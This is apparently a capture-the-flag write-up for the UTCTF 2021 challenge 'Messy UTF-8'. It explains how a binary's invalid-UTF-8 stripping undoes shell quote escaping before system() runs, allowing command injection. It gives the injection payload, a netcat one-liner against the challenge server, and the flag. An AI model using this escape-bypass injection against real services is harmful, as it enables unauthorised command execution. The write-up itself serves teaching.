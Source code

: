 # Messy UTF-8 - UTCTF 2021 (pwn, 987p, 38 solved)

## Introduction
Messy UTF-8 is a binary exploitation task.

An x64 ELF binary is given. It waits for user input and echoes it back.

## Reverse engineering
The binary first starts by reading the user input in a buffer of size 100.
```c
char input[100];
fgets(input, 100, stdin);
```

It then calls the `escape` function on it and stores the output in a buffer of
size 400.
```c
char escaped[400];
escape(escaped, input);
```

The escape function replaces single quotes `'` with `'\''`. This is the classic
escape sequence for posix shells.
```c
void escape(char *out, char *in)
{
	while(*in) {
		if(*in == '\'') {
			out[0] = '\'';
			out[1] = '\\';
			out[2] = '\'';
			out[3] = '\'';
			out += 4;
		} else {
			out[0] = in[0];
			out += 1;
		}

		in++;
	}
}
```

The output is then concatenated between `echo '` and `'`.

The new string is altered by the `parseUTF8` function. This function looks for
invalid UTF-8 codepoints and skip them.

The final string is passed to `system`.

## Vulnerabilities
It is possible to abuse the `parseUTF8` function to skip characters.

Consider an input of `\xF0'; foobar #`. The `escape` pass will transform it to
`\xF0'\''; foobar #` and the concatenation part will transform it to
`echo '\xF0'\''; foobar #'`.

`parseUTF8` will see an invalid 4 bytes codepoint (`\xF0\x27\x5C\x27`) and skip
it entirely, transforming the string to `echo ''; foobar #'`.

## Exploitation
It is possible to read the `flag.txt` file with a payload of
`\xF0'; cat flag.txt #`

**Flag**: `utflag{shouldve_had_error_conditions871234}`

## Appendices
### pwn.sh
```sh
printf "\xF0'; ls -la; cat *flag* #\n" | nc pwn.utctf.live 5434
```
